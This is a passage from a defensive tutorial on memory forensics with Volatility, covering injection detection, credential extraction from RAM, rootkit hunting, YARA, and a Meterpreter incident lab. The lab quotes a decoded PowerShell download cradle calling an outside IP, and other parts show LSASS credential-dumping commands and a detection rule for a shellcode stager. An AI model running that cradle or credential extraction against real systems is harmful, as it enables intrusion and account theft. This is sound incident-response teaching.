Two textbook hits:

- **`rundll32.exe` with an MZ header in RWX private memory** → a reflectively loaded PE (injected DLL).
- **`fc 48 83 e4 f0`** → the standard Metasploit/Meterpreter x64 stager prologue (`cld; and rsp, 0xFFF...F0`). Recognising common shellcode prologues by sight is a real analyst skill.

### `vadinfo` / `vaddump` — dump the region for analysis

```bash
# Inspect the VAD regions and their protections
vol -f case42-mem.raw windows.vadinfo --pid 5012

# Dump a specific injected region (or all of a process's memory) to disk
vol -f case42-mem.raw -o ./dump windows.vaddump --pid 5012
# then: file, strings, YARA, and a disassembler on the dumped .bin
```

### `hollowfind` / hollow detection (Volatility 2 community plugin)

**Process hollowing**: a launcher starts a legit process (say `svchost.exe`) suspended, unmaps its real image, writes malicious code into it, and resumes it. Now Task Manager shows a normal-named process running attacker code. Detection: the in-memory image doesn't match the on-disk file, and the PEB's image path disagrees with the VAD's backing file.

```bash
# Volatility 2 community plugin
python2 vol.py -f mem.raw --profile=Win10x64_19041 --plugins=community hollowfind
```

### `dumpfiles` / `procdump` — recover the executable

```bash
# Vol3: dump a process's main executable to disk
vol -f case42-mem.raw -o ./dump windows.dumpfiles --pid 6120
# Vol2 equivalent:
python2 vol.py -f mem.raw --profile=Win10x64_19041 procdump -p 6120 -D ./dump/
```

Once dumped, pivot to the malware-analysis toolchain (Red Team / malware track): `strings`, `capa`, YARA, and a disassembler like Ghidra/IDA.



---

## Part 9: Credentials and Secrets in Memory

RAM is where the keys to the kingdom sit in the clear (or as crackable hashes). This is why LSASS is every attacker's favourite target, and why the same techniques serve both offense and IR.

### `hashdump` — local account NT hashes

Reconstructs the SAM from memory and dumps local user NTLM hashes, ready to crack (password-attacks track) or pass-the-hash.

```bash
vol -f case42-mem.raw windows.hashdump
```

```
User             RID   LM-hash                          NT-hash
Administrator    500   aad3b435b51404ee...              e19ccf75ee54e06b06a5907af13cef42
svc_backup       1008  aad3b435b51404ee...              8846f7eaee8fb117ad06bdd830b7586c
```

### `lsadump` and `cachedump`

- `lsadump` extracts **LSA secrets** — service-account passwords, cached VPN creds, machine account secrets, auto-logon passwords, DPAPI keys.
- `cachedump` extracts **domain cached credentials** (MSCash/DCC2 hashes) — the hashes Windows caches so domain users can log in when the DC is unreachable. Crackable offline with hashcat mode 2100.

```bash
vol -f case42-mem.raw windows.lsadump
vol -f case42-mem.raw windows.cachedump
```

### Mimikatz-style extraction

Volatility 2 has a community `mimikatz` plugin that pulls WDigest/MSV plaintext and hashes straight from an LSASS in the image — on older or misconfigured systems (WDigest enabled) this yields **plaintext passwords**.

```bash
python2 vol.py -f mem.raw --profile=Win7SP1x64 --plugins=community mimikatz
# wdigest  Administrator  DOMAIN  P@ssw0rd!   <-- plaintext on WDigest-enabled hosts
```

**Blue-team defence angle (woven in):** this is precisely why modern hardening disables WDigest, enables **Credential Guard** (VBS-isolated LSASS secrets), and marks LSASS as a **PPL** (Protected Process Light). If you *can't* pull plaintext from a modern image, that's Credential Guard working. **Red-team relevance:** the same LSASS memory an attacker dumps with Mimikatz on the live box is what you, the responder, extract from the RAM image after the fact — the artifact is identical.

### Alternative: dump LSASS, parse offline

You can carve the LSASS process out of the image and run **pypykatz** (a pure-Python Mimikatz) against it, which is often more reliable than the in-tree plugin on newer builds:

```bash
vol -f case42-mem.raw -o ./dump windows.dumpfiles --pid <LSASS_PID>
pypykatz lsa minidump ./dump/lsass.dmp
```

---

## Part 10: Registry, Timelines, and File Recovery From Memory

### Registry in memory

The registry is memory-mapped while Windows runs, so you can read hives — including **volatile keys that never touch disk** — directly.

```bash
vol -f case42-mem.raw windows.registry.hivelist          # find hive virtual offsets
vol -f case42-mem.raw windows.registry.printkey --key "Software\Microsoft\Windows\CurrentVersion\Run"
```

High-value keys for IR:

| Key / plugin | What it reveals |
| --- | --- |
| `...\CurrentVersion\Run` / `RunOnce` | Autostart persistence entries |
| `userassist` (Vol2) | GUI programs the user launched, with run counts and timestamps |
| `shimcachemem` / `shimcache` | Program-execution evidence (AppCompatCache) from memory |
| `Services` | Malicious service persistence |
| `shellbags` | Folders the user browsed (even deleted ones) |

**Cross-reference with Chapter 3:** ShimCache/Amcache and UserAssist also live on disk; pulling them from *memory* can catch the live/volatile version before an attacker's cleanup script rewrites the on-disk hive.

### Timelining

`timeliner` (Vol2) and `windows.timeliner` build a timeline from every timestamped artifact in memory — process create times, network sockets, handles, registry last-write times — which you then **fuse with the disk super-timeline from Chapter 3** for a single narrative.

```bash
python2 vol.py -f mem.raw --profile=Win10x64_19041 timeliner --output=body --output-file=mem.body
# merge mem.body with your disk fls/mactime body file, then mactime -b combined.body -d > super.csv
```

`mftparser` (Vol2) even reconstructs `$MFT` entries that are resident in RAM — file-system metadata straight from memory.

### File recovery

```bash
vol -f case42-mem.raw windows.filescan               # list _FILE_OBJECTs in memory
vol -f case42-mem.raw -o ./dump windows.dumpfiles --virtaddr 0x<offset>   # carve a cached file out of RAM
```

Cached documents, scripts, and even the malware's own dropped files often sit in the standby/cache pages and can be recovered even if deleted from disk.

---

## Part 11: Rootkits, Hooks, and Kernel-Level Hiding

The deepest hiding happens in the kernel. These (mostly Volatility 2) plugins hunt it.

| Plugin | Detects |
| --- | --- |
| `modules` / `modscan` | Loaded drivers via linked list vs pool scan (compare for hidden drivers, like pslist vs psscan) |
| `ssdt` | Hooks in the System Service Descriptor Table (syscall table) — classic rootkit hook |
| `callbacks` | Registered kernel callbacks (process/thread/image-load notify) abused for persistence/evasion |
| `driverirp` | Hooked IRP handler functions in drivers |
| `apihooks` | Inline / IAT / EAT hooks in user or kernel space |
| `idt` | Interrupt Descriptor Table hooks |
| `devicetree` | Malicious device stack attachments (filter drivers) |
| `svcscan` | Windows services, including hidden ones |

```bash
python2 vol.py -f mem.raw --profile=Win10x64_19041 modscan      # driver in scan but not in 'modules' list = hidden
python2 vol.py -f mem.raw --profile=Win10x64_19041 ssdt | grep -vi 'ntoskrnl\|win32k'   # non-standard SSDT owners = hooks
python2 vol.py -f mem.raw --profile=Win10x64_19041 apihooks
```

The recurring pattern mirrors `pslist` vs `psscan`: **the honest linked list vs the paranoid pool scan.** Anything in the scan but not the list is hidden. This "cross-view" principle is the single most transferable idea in memory forensics.

---

## Part 12: Linux and macOS Memory Analysis

Windows dominates memory-forensics tooling, but Linux/Mac analysis is increasingly common (cloud servers, containers, macOS endpoints).

### The symbol-table hurdle

As noted in Part 4, Volatility 3 **auto-downloads Windows symbols** but **cannot** for Linux/Mac — you must build an ISF from the target kernel's debug symbols using **dwarf2json**.

```bash
# On a box matching the target kernel (or with its debug package / vmlinux):
git clone https://github.com/volatilityfoundation/dwarf2json
cd dwarf2json && go build
./dwarf2json linux --elf /usr/lib/debug/boot/vmlinux-5.15.0-91-generic \
  > ubuntu-5.15.0-91.json
# Place under volatility3/symbols/linux/  (or point --symbol-dirs at it)
```

Volatility 2 had the equivalent friction: you built a **Linux profile** by compiling a `module.dwarf` against the kernel and zipping it with `System.map`.

### Core Linux plugins

```bash
vol -f linux.lime linux.pslist            # processes (task_struct list)
vol -f linux.lime linux.pstree
vol -f linux.lime linux.bash              # recover bash command history from memory!  (huge for IR)
vol -f linux.lime linux.psaux             # process args
vol -f linux.lime linux.lsof              # open files/sockets per process
vol -f linux.lime linux.check_syscall     # syscall table hooks (rootkit)
vol -f linux.lime linux.malfind           # injected code
vol -f linux.lime linux.elfs              # mapped ELF binaries
vol -f linux.lime linux.tty_check         # tty hooks (keyloggers)
```

`linux.bash` is a standout: it carves the in-memory `bash` history ring buffer, recovering commands an attacker typed even if they `unset HISTFILE` or deleted `~/.bash_history` — because that only affects the on-disk copy, not the live process memory.

### macOS

```bash
vol -f mac.raw mac.pslist
vol -f mac.raw mac.netstat
vol -f mac.raw mac.malfind
```

Same symbol-generation requirement (dwarf2json against the matching kernel). Modern macOS acquisition limitations (Part 3) mean you'll analyse Mac memory less often, but the plugin workflow mirrors Windows/Linux.

---

## Part 13: YARA Scanning of Memory

**YARA** (taught from scratch in the Blue Team detection track) lets you sweep an entire memory image for known-malware byte/string patterns — turning a RAM dump into a detection surface.

```bash
# Vol3: scan the whole image (or a single process) with a YARA rule file
vol -f case42-mem.raw windows.vadyarascan --yara-file cobaltstrike.yar
vol -f case42-mem.raw windows.vadyarascan --yara-file cobaltstrike.yar --pid 5012

# Vol2 equivalent:
python2 vol.py -f mem.raw --profile=Win10x64_19041 yarascan -y rules.yar
```

A minimal rule to catch a Meterpreter x64 stager string/prologue:

```yara
rule meterpreter_x64_stager {
    strings:
        $prologue = { fc 48 83 e4 f0 e8 }         // cld; and rsp,0xF0; call
        $ws2 = "ws2_32" ascii nocase
    condition:
        $prologue and $ws2
}
```

**Detection tie-in:** the same YARA rules your EDR runs live can be run *post-mortem* against the RAM image, letting you confirm a family (Cobalt Strike, Emotet, Qakbot) and extract its config (many families have public config-extractor YARA + Python).

---

## Part 14: Hands-On Lab — A Full Ransomware / Meterpreter Investigation

This is a complete, reproducible workflow on a Windows 10 image (`case42-mem.raw`). Use any public DFIR memory image to follow along (see Practice Labs). Commands are Volatility 3 unless marked Vol2.

### Scenario

A SOC alert fires: "PowerShell spawning rundll32, outbound TLS to a raw IP." A responder captures RAM with WinPmem before isolating the host. Your job: confirm compromise, identify the malware, extract IOCs, and recover credentials the attacker may have stolen.

### Step 0 — verify the image

```bash
sha256sum case42-mem.raw          # matches the acquisition hash in the log? good.
vol -f case42-mem.raw windows.info | egrep 'Major|Minor|SystemTime|Is64Bit'
# NtMajorVersion 10 / 19041 / SystemTime 2027-03-11 04:12:07 / Is64Bit True
```

### Step 1 — process triage (three views)

```bash
vol -f case42-mem.raw windows.pstree
```

```
* 664  services.exe
** 728 svchost.exe
* 3120 explorer.exe
** 4880 powershell.exe            2027-03-11 04:09:55
*** 5012 rundll32.exe             2027-03-11 04:10:31   <-- child of interactive PS
```

Cross-check for hidden processes:

```bash
vol -f case42-mem.raw windows.psscan | grep -iv -f <(vol -f case42-mem.raw windows.pslist | awk '{print $1}')
# reveals: 6120  evil.exe   (present in psscan, absent from pslist) -> HIDDEN
```

### Step 2 — what did they run?

```bash
vol -f case42-mem.raw windows.cmdline --pid 4880
# powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGUAdwAt...

# decode the -enc blob (UTF-16LE base64):
echo 'SQBFAFgAKABOAGUAdwAt...' | base64 -d | iconv -f UTF-16LE -t UTF-8
# IEX (New-Object Net.WebClient).DownloadString('http://185.234.72.19/a')  <-- download cradle
```

```bash
vol -f case42-mem.raw windows.cmdline --pid 5012
# rundll32.exe C:\Users\Public\update.dll,DllRegisterServer   <-- LOLBin persistence
```

### Step 3 — network IOCs

```bash
vol -f case42-mem.raw windows.netscan | egrep 'ESTABLISHED|LISTENING'
```

```
TCPv4 10.10.14.7:49712 -> 185.234.72.19:443  ESTABLISHED  5012 rundll32.exe   <-- C2
TCPv4 0.0.0.0:4444      -> 0.0.0.0:0          LISTENING    6120 evil.exe        <-- MSF handler
```

IOCs so far: `185.234.72.19`, port 4444 bind, `C:\Users\Public\update.dll`, the download URL.

### Step 4 — confirm injection

```bash
vol -f case42-mem.raw windows.malfind --pid 6120
```

```
6120 evil.exe 0x400000-0x41ffff PAGE_EXECUTE_READWRITE
0x400000  fc 48 83 e4 f0 e8 c8 00 00 00   cld; and rsp,0xF0; call...   <-- Meterpreter x64 stager
```

```bash
vol -f case42-mem.raw windows.malfind --pid 5012
# rundll32.exe 0x2a0000 RWX with MZ header -> reflectively loaded DLL
```

### Step 5 — dump the payloads for analysis

```bash
mkdir dump
vol -f case42-mem.raw -o ./dump windows.vaddump --pid 6120
vol -f case42-mem.raw -o ./dump windows.dumpfiles --pid 5012
strings -n 8 dump/*.dmp | egrep -i 'http|\.onion|mutex|AES|RSA|BEGIN|bitcoin'
vol -f case42-mem.raw windows.vadyarascan --pid 6120 --yara-file meterpreter.yar
# -> meterpreter_x64_stager match: family confirmed
```

### Step 6 — check for stolen credentials

```bash
vol -f case42-mem.raw windows.hashdump
vol -f case42-mem.raw windows.lsadump
vol -f case42-mem.raw windows.cachedump
# NT hashes for Administrator + svc_backup captured; DCC2 hash for domain user 'jdoe'
# -> assume these are compromised: force resets, hunt for pass-the-hash reuse
```

### Step 7 — persistence and registry

```bash
vol -f case42-mem.raw windows.registry.printkey --key "Software\Microsoft\Windows\CurrentVersion\Run"
# "Updater" = rundll32 C:\Users\Public\update.dll,DllRegisterServer   <-- autorun persistence
vol -f case42-mem.raw windows.handles --pid 6120 | grep -i Mutant
# Global\a1b2c3-CAMPAIGN-LOCK   <-- infection-marker mutex IOC (sweep the fleet)
```

### Step 8 — timeline & report

```bash
python2 vol.py -f case42-mem.raw --profile=Win10x64_19041 timeliner --output=body --output-file=mem.body
# fuse with disk body file from Chapter 3, then mactime -> super-timeline CSV
```

**Findings summary you'd write up:** initial access via a PowerShell download cradle (04:09:55) → reflective DLL in `rundll32` beaconing to `185.234.72.19:443` (04:10:31) → hidden `evil.exe` Meterpreter handler on 4444 → credential theft (SAM + DCC2) → `Run`-key persistence via `update.dll`. IOCs: the C2 IP, the mutex, the DLL path/hash, the URL. Recommended actions: isolate, reset the exposed accounts, block the C2, sweep for the mutex and DLL hash, hunt lateral movement with the stolen hashes.

---

## Part 15: Anti-Forensics and the Limits of Memory Analysis

Memory forensics is powerful but not magic. Know its failure modes so you don't over-claim.

- **Paged-out memory:** regions swapped to `pagefile.sys` aren't in a RAM-only image. Acquire the pagefile and use Vol3 layered analysis for full coverage; otherwise note the gap.
- **Smear:** a busy-system capture can produce inconsistent structures; some plugins fail. Prefer VM snapshots; document capture conditions.
- **Encryption in memory:** malware may keep payloads encrypted until the moment of execution, then re-encrypt; you catch it only if the capture lands during the decrypted window.
- **Anti-acquisition:** targeted malware can detect/block acquisition drivers or crash on capture. VM snapshots sidestep in-guest interference.
- **Credential Guard / PPL LSASS:** on hardened Win10/11, LSASS secrets are VBS-isolated — `hashdump`/`mimikatz` may return nothing. That's a *defensive success*, not a tool failure.
- **Wrong profile/symbols (the #1 self-inflicted wound):** a mismatched Vol2 profile or missing Vol3 symbol table yields empty/garbage output that looks like "clean". Always confirm `windows.info`/`imageinfo` first, and sanity-check that `pslist` returns the expected core processes.
- **Time is UTC and capture-relative:** every timestamp is anchored to the capture `SystemTime`; account for time zone and clock skew before correlating with other evidence.

**Tool-validation reality:** corroborate critical findings with a second method (e.g. `psscan` confirming a `pslist` process, `netstat` cross-checking `netscan`, a YARA hit plus a disassembly). A single plugin's word is a lead, not a conclusion.

---

## Part 16: Detection & Defense Angle

This consolidated section is the blue-team payoff — how the offensive artifacts above translate into detection and hardening. (Per the reference style, offense/IR relevance was woven inline throughout; this is the single dedicated defense section.)

**Detecting the techniques memory forensics reveals:**

- **Injection (`malfind` hits):** EDR and Sysmon detect the *live* version of what `malfind` finds post-mortem — Sysmon **Event ID 8 (CreateRemoteThread)**, **Event ID 10 (ProcessAccess)** targeting LSASS, and RWX private memory allocations. A `malfind` RWX-with-MZ region maps to a `CreateRemoteThread`/`VirtualAllocEx` telemetry chain.
- **Suspicious parentage (`pstree`):** the same anomalies (`powershell → rundll32`, `svchost` with wrong parent) are Sigma/EDR rules on **Event ID 1 (Process Create)** with parent-child logic. Build detections for the process-tree deviations you learned to spot by eye.
- **LOLBin abuse (`cmdline`):** encoded PowerShell (`-enc`, `-w hidden`, `-nop`), `rundll32` calling exported functions of user-writable DLLs — all detectable in command-line logging (enable **PowerShell Script Block Logging** and **Process Command Line auditing**, event 4688).
- **C2 (`netscan`):** the foreign IPs/ports become network detections and threat-intel matches; beaconing patterns surface in NSM (Zeek/Suricata, SOC track).
- **Credential theft (`hashdump`/`lsadump`):** LSASS access is the crown-jewel detection — Sysmon **EID 10** on `lsass.exe`, EDR LSASS-read alerts. Hardening: **Credential Guard**, **LSASS as PPL**, disable **WDigest**, LAPS for local admin, tiered admin (AD track).

**Hardening that blunts memory-resident attacks:**

- Credential Guard + PPL LSASS + WDigest off → kills plaintext/credential theft from memory.
- ASR rules (block `rundll32`/`regsvr32` spawning child processes, block credential stealing from LSASS).
- Application allow-listing (WDAC/AppLocker) → stops the download-cradle payloads.
- Constrained Language Mode + Script Block Logging → declaws PowerShell abuse.

**Proactive memory capture as a control:** mature SOCs trigger automated memory capture on high-severity EDR alerts (via the EDR's own live-response, or Velociraptor's WinPmem integration), so the volatile evidence is preserved *before* an analyst even logs in.



---

## Part 17: Final Revision / Summary

The through-line of memory forensics is a single idea repeated at every layer: **the honest view vs the paranoid view.** The OS maintains tidy linked lists of processes, modules, and drivers; malware hides by editing those lists. So you always enumerate a second way — by scanning raw physical memory — and treat any disagreement as a lead.

- **Memory is the highest-value, most perishable evidence.** Capture it *first* on a live compromised host, before anything that could reboot or trigger anti-forensics. Hash the capture immediately.
- **Acquisition quality determines everything.** WinPmem/DumpIt (Windows), LiME/AVML (Linux), `.vmem` snapshots (VMs — smear-free, prefer them). Beware page smear; VM snapshots are the gold standard.
- **Volatility 3 by default** (auto Windows symbols, better smear tolerance); **Volatility 2** for un-ported plugins and old profiles. Profiles (Vol2) vs symbol tables/ISF (Vol3) is the core setup concept; Linux/Mac symbols you build with `dwarf2json`.
- **Always identify the image first** (`windows.info` / `imageinfo`) and anchor your timeline to the capture `SystemTime`.
- **Cross-view processes** (`pslist` vs `psscan` vs `pstree`/`psxview`) to catch DKOM hiding; interrogate suspects with `cmdline`, `dlllist`/`ldrmodules`, `handles`, `envars`.
- **Reconstruct the network** (`netscan`) even for closed connections → C2 IOCs.
- **Catch injected/hollowed code** with `malfind` (RWX private memory, MZ headers, shellcode prologues), then `vaddump` → YARA → disassembler.
- **Extract secrets** (`hashdump`, `lsadump`, `cachedump`, pypykatz on a dumped LSASS) — and recognise when Credential Guard has (correctly) denied you.
- **Registry, timelines, and file recovery** all work in memory and fuse with the disk evidence from Chapter 3.
- **Hunt the kernel** (`modscan`, `ssdt`, `callbacks`, `apihooks`) using the same list-vs-scan cross-view.
- **Know the limits:** paged-out memory, smear, encryption windows, hardened LSASS. Corroborate every critical finding with a second method.

The next chapter moves from volatile memory to disk-side execution and triage artifacts — Windows registry forensics at scale, the `$MFT`, and rapid triage with KAPE and the Eric Zimmerman tools — completing the pair of "what was running" (memory) and "what was left behind" (disk).

---

## Part 18: Cheat Sheet / Quick Reference

**Setup & identify (Volatility 3):**

```bash
pip3 install volatility3
vol -f mem.raw windows.info                 # OS, build, SystemTime, Is64Bit
```

**Volatility 2 identify:**

```bash
python2 vol.py -f mem.raw imageinfo          # suggest profile
python2 vol.py -f mem.raw kdbgscan           # precise KDBG/profile
python2 vol.py -f mem.raw --profile=Win10x64_19041 <plugin>
```

**Core Windows plugins (Vol3 name / Vol2 name):**

| Goal | Volatility 3 | Volatility 2 |
| --- | --- | --- |
| Image info | `windows.info` | `imageinfo` / `kdbgscan` |
| Process list (linked) | `windows.pslist` | `pslist` |
| Process scan (carve) | `windows.psscan` | `psscan` |
| Process tree | `windows.pstree` | `pstree` |
| Hidden-process cross-view | (compare pslist/psscan) | `psxview` |
| Command lines | `windows.cmdline` | `cmdline` |
| Loaded DLLs | `windows.dlllist` | `dlllist` |
| Unlinked/hidden DLLs | `windows.ldrmodules` | `ldrmodules` |
| Handles (files/keys/mutex) | `windows.handles` | `handles` |
| Env vars | `windows.envars` | `envars` |
| Network endpoints | `windows.netscan` | `netscan` / `connscan` |
| Injected code | `windows.malfind` | `malfind` |
| Dump VAD region | `windows.vadinfo` / `vaddump` | `vadinfo` / `vaddump` |
| Dump process image | `windows.dumpfiles` | `procdump` / `dlldump` |
| Local hashes | `windows.hashdump` | `hashdump` |
| LSA secrets | `windows.lsadump` | `lsadump` |
| Domain cached creds | `windows.cachedump` | `cachedump` |
| Registry hives | `windows.registry.hivelist` | `hivelist` |
| Print reg key | `windows.registry.printkey` | `printkey` |
| Drivers (scan) | `windows.modules` / `modscan` | `modules` / `modscan` |
| YARA scan | `windows.vadyarascan` | `yarascan` |
| Timeline | `windows.timeliner` | `timeliner` |
| File objects | `windows.filescan` | `filescan` |

**Injection red flags (from `malfind`):** `PAGE_EXECUTE_READWRITE` + private (no file backing) + `MZ` header or `fc 48 83 e4 f0` (x64) / `fc e8` (x86) shellcode prologue.

**Normal Windows process spine (memorise for anomaly spotting):**

```
System(4) -> smss.exe -> csrss.exe / wininit.exe
wininit.exe -> services.exe -> svchost.exe (many), lsass.exe
                          -> explorer.exe (under userinit/winlogon)
```

**Linux quick hits:**

```bash
./dwarf2json linux --elf vmlinux-<ver> > symbols/linux/<ver>.json
vol -f mem.lime linux.pslist
vol -f mem.lime linux.bash          # recover shell history from RAM
vol -f mem.lime linux.lsof
vol -f mem.lime linux.check_syscall # rootkit syscall hooks
```

**Acquisition one-liners:**

```bash
winpmem_mini_x64_rc2.exe E:\mem.raw            # Windows
sudo ./avml mem.lime                           # Linux (no module build)
sudo insmod lime-$(uname -r).ko "path=/mnt/mem.lime format=lime"
VBoxManage debugvm <vm> dumpvmcore --filename mem.elf   # VirtualBox
virsh dump --memory-only <domain> mem.dump             # KVM/QEMU
# VMware: suspend VM -> copy the .vmem
sha256sum mem.raw > mem.raw.sha256             # ALWAYS hash the capture
```

---

## Part 19: Common Pitfalls

- **Analysing before identifying.** Running `pslist` without confirming the build/profile → empty output misread as "clean". Always `windows.info`/`imageinfo` first.
- **Wrong Vol2 profile.** A near-miss profile parses partially and lies. Cross-check with `kdbgscan` and sanity-check core processes.
- **Missing Linux/Mac symbols.** Vol3 auto-fetches Windows symbols but not Linux/Mac — build the ISF with `dwarf2json` or every Linux plugin fails.
- **Trusting one enumeration.** `pslist` alone misses hidden processes. Always add `psscan`/`psxview`.
- **Ignoring smear.** A busy-host capture with structural errors isn't necessarily "corrupt" — but prefer VM snapshots and document conditions.
- **Forgetting the pagefile.** Paged-out data isn't in a RAM-only image; note the gap or acquire the pagefile.
- **Over-claiming from a null result.** No plaintext creds may mean Credential Guard, not "attacker didn't steal creds." Distinguish tool limits from evidence of absence.
- **Not hashing the capture.** Without a hash recorded at acquisition, integrity is unprovable — the same chain-of-custody discipline as disk (Chapter 2).
- **Modifying the evidence.** Work on a copy; never point plugins at the only copy on read-write media without a hash.
- **Time-zone sloppiness.** Everything is UTC anchored to capture `SystemTime`; convert consistently before correlating with disk/SIEM timelines.

---

## Part 20: Practice Labs & Resources

Train each specific skill from this chapter on real images:

- **Volatility Foundation sample images** — the official Volatility 3 test images and the classic Vol2 "Malware Cookbook" samples; start with a known-malware Windows image and reproduce Parts 6–9.
- **TryHackMe** — *Volatility*, *Memory Forensics*, *Disk Analysis & Autopsy* (pairs with Chapter 3), and the *Investigating Windows* / *Redline* rooms; the Blue Team path DFIR rooms.
- **CyberDefenders** — memory-forensics challenges (e.g. *Hunter*, *Memory Analysis*, *Red Stealer*, ransomware labs) built on real RAM dumps; each walks a full `pslist → malfind → netscan → dump` chain.
- **HackTheBox / HTB Sherlocks** — DFIR "Sherlock" scenarios include memory-analysis tracks with C2 and injection to unravel.
- **BlueTeamLabs.online** — investigation-style memory challenges with graded questions mirroring the lab in Part 14.
- **The Art of Memory Forensics** (Ligh, Case, Levy, Walters) — the canonical text; its accompanying images are excellent for deep practice.
- **CTF categories** — most DFIR-heavy CTFs (many *picoCTF* forensics tasks, dedicated *DFIR CTFs*, *Magnet Weekly CTF* archives) include a RAM image to carve.
- **Build your own** — infect a disposable Windows VM with a lab-scoped Meterpreter/Cobalt Strike beacon (Red Team track, lab-only), snapshot the `.vmem`, and reproduce every plugin in this chapter end to end.

Practice questions to test yourself on any image:

1. Given only a RAM image, prove whether a specific process is hidden, and state exactly which two plugins' disagreement establishes it.
2. Recover the full launch command line of a suspicious PowerShell process and decode its `-enc` payload to the underlying download URL.
3. Locate one injected code region with `malfind`, dump it, and identify the shellcode family from its prologue and a YARA hit.
4. Extract every external IP the host was communicating with at capture time and attribute each to a PID.
5. Determine whether local and domain-cached credentials were exposed, and explain what a null `hashdump` result would and would not prove.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/dfir/04-memory-forensics-with-volatility), with comments and the latest edits.*
